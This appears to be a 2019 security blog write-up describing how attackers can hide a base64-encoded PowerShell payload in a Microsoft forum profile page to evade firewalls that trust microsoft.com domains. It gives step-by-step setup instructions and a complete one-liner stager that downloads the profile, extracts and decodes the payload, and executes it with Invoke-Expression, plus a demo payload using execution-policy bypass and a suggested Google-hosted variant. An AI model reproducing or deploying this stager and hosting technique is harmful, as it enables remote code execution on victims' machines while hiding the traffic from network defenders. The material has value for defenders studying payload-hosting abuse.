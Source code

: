 ```yaml
---
layout: post
title: "Abuse Microsoft.com Domains to Exec Stagers + Evade Firewalls"
categories: [publication,write-up]
modified: 2019-07-01
---
```


While trying to share an article on social media recently, [Twitter prevented me](https://twitter.com/tokyoneon_/status/1111695663144882176) from entering a simple PowerShell command into the tweet. Twitter continued to display an error message stating the tweet couldn't be submitted.

It occurred to me that hackers had been tweeting PowerShell commands in the past with the intent of using the service as a payload-hosting system. This got me thinking about other popular domains that could be used similarly, as well as what potential benefits the activity could have for an attack.



Microsoft.com is one of the most extensive domains on the internet with thousands of registered subdomains. Windows 10 will ping these subdomains hundreds of times an hour, making it challenging to firewall and monitor all of the requests made by the operating system. An attacker can use these subdomains to serve payloads to evade network firewalls.

Even with hardened settings, Windows 10 will ping (or "phone home") Microsoft servers thousands of times. Some of the data transmitting to and from Microsoft domains is required to maintain system updates and other essential aspects of the operating system. Below is an example packet capture of a Windows 10 system.

![](/img/use-microsoft-com-domains-bypass-firewalls-execute-payloads.w1456.jpg)

Some Microsoft domains may appear with unusual subdomains (e.g., "geover-prod.do.dsp.mp.microsoft.com"). These are generally for dedicated services, resources, and applications running in the background. That means that some strict firewalls and IDSs will allow these domains with wildcards (e.g., *.microsoft.com) to pass through the network. The Microsoft domains may also be ignored entirely by some system administrators as they're not as likely to be abused by malicious actors.

An attacker can use this knowledge to their advantage. Take the below Wireshark capture for example. Do you notice anything unusual?

![](/img/use-microsoft-com-domains-bypass-firewalls-execute-payloads.w14562.jpg)

The **social.msdn.microsoft.com** domain was just used to download the attacker's payload. To the naked eye — or anyone performing deep packet inspection (DPI), this traffic looks mostly benign. The domain belongs to Microsoft's community forum for developers and every-day Windows 10 users alike. The requests (TCP/TLS) are encrypted so inspecting the packets further will not show the full path to the webpage or the contents (i.e., the payload). Administrators observing this traffic on the network will likely believe the target user is merely browsing the Microsoft forum.

Navigating to the page set up by the attacker, we can see the payload embedded into the "About Me" section.

![](/img/use-microsoft-com-domains-bypass-firewalls-execute-payloads.w14563.jpg)

Many Microsoft-owned domains can be used for this kind of activity such as Microsoft Answers, Office Forms, OneDrive, and even the comment sections of other Microsoft news outlets. All of these legitimate Microsoft domains allow user input that can be abused to host payloads.


At this point, we're defining the final bit of code being executed on the target's computer. To keep things simple, the payload will create an arbitrary file in the `Documents\` folder called `pwn_sauce`. Take note of the triple backslash (`\\\`). In Bash (Kali terminal), this is required to pass PowerShell variables in the payload as a literal string.

```powershell
powershell -ep bypass /w 1 /C New-Item -ItemType file 'C:\Users\\\$env:USERNAME\Documents\pwn_sauce'
```

Complex PowerShell payloads containing special characters must be base64 encoded. Otherwise, Microsoft's server will detect and sanitize special characters (e.g., `<` `>` `&`). Base64 encoding the payload is a quick way around that issue.

With extended commands, base64 will likely produce multiple encoded lines. When using base64 strings with PowerShell, they need to appear on one single line. Concatenate the numerous lines into a single string by piping the `base64` output into `tr` to delete (`-d`) new lines.

```bash
$ printf '%s' "PAYLOAD GOES HERE" | base64 | tr -d '\n'
cG93ZXJzaGVsbCAtZXAgYnlwYXNzIC93IDEgL0MgTmV3LUl0ZW0gLUl0ZW1UeXBlIGZpbGUgJ0M6XFVzZXJzXCRlbnY6VVNFUk5BTUVcRG9jdW1lbnRzXHB3bl9zYXVjZSc=
```


A Microsoft account is required to create and modify the profile page hosting the payload. Navigate to the Live login page to start the process. After signing in, navigate to the user profile page at **social.msdn.microsoft.com/Profile/USERNAME** and click the "Edit My Profile" button to update the About Me section.


The About Me section on the Microsoft profile page can hold 1,024 characters, which you should be mindful of when creating payloads — especially when encoding with base64. It's possible to host payloads in plaintext, but the PowerShell stager will need to include some code to detect and convert sanitized HTML strings back in plaintext format. While possible, this is beyond the scope of the article.

![](/img/2.jpg)

Paste the desired payload into the About Me section between the words "START" and "END." It's crucial to the stager in the next step, which analyzes all of the HTML on the Microsoft page and extracts the encoded string between the identifiers. Click the "Save" button at the bottom of the page when done.


The following PowerShell one-liner was designed to download the Microsoft user's profile page, extract the encoded payload, decode it, then execute it.

```powershell
$wro = iwr -Uri https://social.msdn.microsoft.com/Profile/USERNAME -UseBasicParsing;$r = [Regex]::new("(?<=START)(.*)(?=END)");$m = $r.Match($wro.rawcontent);if($m.Success){ $p = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m.value));iex $p }
```

There are multiple commands chained together which are separated by semicolons.

The `Invoke-WebRequest` (iwr) cmdlet is used to fetch the profile page with the `-UseBasicParsing` argument. All of this is set into the `$wro` (WebResponseObject) variable. While deprecated, the `UseBasicParsing` parameter will enable basic parsing. I found this parameter needed to be manually set for the request to succeed.

```powershell
$wro = iwr -Uri https://social.msdn.microsoft.com/Profile/USERNAME -UseBasicParsing;
```

PowerShell will use regex patterns to locate the payload in the HTML. There are other ways of extracting content from webpages, but this method felt universal. Payloads encased in "START" and "END" embedded into any website would get filtered by this command.

```powershell
$r = Regex::new("(?<=START)(.*)(?=END)");
```

The variable `$m` is created for any text matching the regex patterns.

```powershell
$m = $r.Match($wro.rawcontent);
```

If any patterns are found in the `$m` variable, decode (`FromBase64String`) the string and set it into the `$p` variable.

```powershell
if($m.Success){ $p = System.Text.Encoding::UTF8.GetString(System.Convert::FromBase64String($m.value)); ...}
```

Use `Invoke-Expression` (iex) to execute the `$p` variable. In this case, `$p` is the PowerShell payload. 

```powershell
iex $p
```

To test it, the `iex` command is substituted with `echo`, as seen below.

![](/img/3.jpg)



The featured stager was designed for and tested with [keystroke injection attacks](/0x03). However, there are plenty of other ways to execute the code on a target machine.

Using Google.com to host payloads is one improvement to the attack. Like ***.microsoft.com**, most firewalls will not block GET requests made directly to <b>*.google.com</b>.

Hosting payloads directly on Google is trickier. Google is a search engine, so the attacker would need to create a website that Google can index. Then, they'd need to create a web path containing the payload as the filename. The payload would later be acquired by identifying the href, not the body of an About Me section (example below). The target's computer would never actually query the attacker's website. The payload could be acquired entirely using the Google search engine. Notice the "START" and "END" identifiers in the URI.

![](/img/4.jpg)


---

{{ site.wht_credit }}

